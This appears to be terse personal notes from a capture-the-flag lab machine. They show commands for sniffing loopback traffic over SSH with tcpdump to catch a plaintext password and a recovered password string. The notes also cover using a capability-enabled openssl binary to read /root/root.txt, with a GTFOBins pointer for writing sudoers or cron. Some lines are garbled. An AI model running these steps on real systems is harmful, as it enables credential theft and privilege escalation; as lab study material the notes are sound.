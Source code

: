 ### Check with two commands
```bash
ssh 10.10.17.120@10.10.10.119 /usr/sbin/tcpdump -i ens160 -U -s0 -w - not port 22 > ens160no22.pcap

wireshark ens160no22.pcap
```

### It only triggers for visiting status.php which is bad
##### Check in one commands via wireshark live
```bash
ssh 10.10.17.120@10.10.10.119 /usr/sbin/tcpdump -i lo -U -s0 -w - not port 22 | wireshark -k -i -
```

##### Or capture inside the box
```bash
tcpdump -i lo not port 22 -w capture.pcap -v

```

##### If the host only knows the password as sha512, send it what looks like an md5 doesn’t make sense. plain text password
8bc8251332abe1d7f105d3e53ad39ac2


### Check md5sum custom binaries
```bash
md5sum openssl /usr/bin/openssl tcpdump /usr/sbin/tcpdump
```

### Root
```bash
/home/ldapuser1/openssl enc -in /root/root.txt
./openssl base64 -in /root/root.txt | base64 -d

# write to get root, sudoers or cron
https://gtfobins.github.io/gtfobins/openssl/#file-write
```
